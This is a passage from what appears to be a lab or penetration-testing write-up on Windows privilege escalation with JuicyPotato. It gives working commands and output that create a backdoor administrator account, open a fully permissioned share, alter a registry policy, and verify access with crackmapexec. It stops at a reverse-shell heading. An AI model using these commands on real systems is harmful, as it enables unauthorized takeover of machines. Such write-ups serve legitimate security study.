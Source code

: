 2.- Adding the user to the Administrators group:
```powershell
juicypotato.exe -l 1337 -c "{CBC04AF1-25C7-4A4D-BB78-28284403510F}" -p C:\Windows\System32\cmd.exe -a "/c net localgroup Administrators shuciran2 /add" -t *
Testing {CBC04AF1-25C7-4A4D-BB78-28284403510F} 1337
......
[+] authresult 0
{CBC04AF1-25C7-4A4D-BB78-28284403510F};NT AUTHORITY\SYSTEM

[+] CreateProcessWithTokenW OK
```

3.- Then we create an SMB Folder which will allow to give permissions to the user we just created:
```powershell
juicypotato.exe -l 1337 -c "{CBC04AF1-25C7-4A4D-BB78-28284403510F}" -p C:\Windows\System32\cmd.exe -a "/c net share attacker_folder=C:\Windows\Temp /GRANT:Administrators,FULL /add" -t *
Testing {CBC04AF1-25C7-4A4D-BB78-28284403510F} 1337
......
[+] authresult 0
{CBC04AF1-25C7-4A4D-BB78-28284403510F};NT AUTHORITY\SYSTEM

[+] CreateProcessWithTokenW OK

```

4.- We modify the following registry key in order to allow the system to create another administrator account:

```powershell
juicypotato.exe -l 1337 -c "{CBC04AF1-25C7-4A4D-BB78-28284403510F}" -p C:\Windows\System32\cmd.exe -a "/c reg add HKLM\Software\Microsoft\Windows\CurrentVersion\Policies\System /v LocalAccountTokenFilterPolicy /t REG_DWORD /d 1 /f" -t *
Testing {CBC04AF1-25C7-4A4D-BB78-28284403510F} 1337
......
[+] authresult 0
{CBC04AF1-25C7-4A4D-BB78-28284403510F};NT AUTHORITY\SYSTEM

[+] CreateProcessWithTokenW OK
```

5.- Finally if evertyhing went as planned we can use crackmapexe in order to test account privileges:

```bash
crackmapexec smb 10.11.1.31 -u 'shuciran2' -p 'shuciran123'
SMB         10.11.1.31      445    RALPH            [*] Windows Server 2016 Standard 14393 x64 (name:RALPH) (domain:ralph) (signing:False) (SMBv1:True)
SMB         10.11.1.31      445    RALPH            [+] ralph\shuciran:shuciran123 (Pwn3d!)

```

At this point all that we need to do is execute evilwin-rm with this new user which is now NT Authority\\System

### Getting a reverse shell:

